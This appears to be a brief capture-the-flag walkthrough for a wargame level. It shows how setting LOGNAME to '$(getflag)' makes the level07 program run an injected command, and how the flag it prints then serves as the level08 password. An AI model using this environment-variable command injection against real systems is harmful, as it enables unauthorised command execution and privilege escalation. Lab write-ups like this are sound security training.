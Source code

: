 ssh:
- `export LOGNAME='$(getflag)'`
- `./level07`, copy the flag
- `su level08`, paste the flag as the password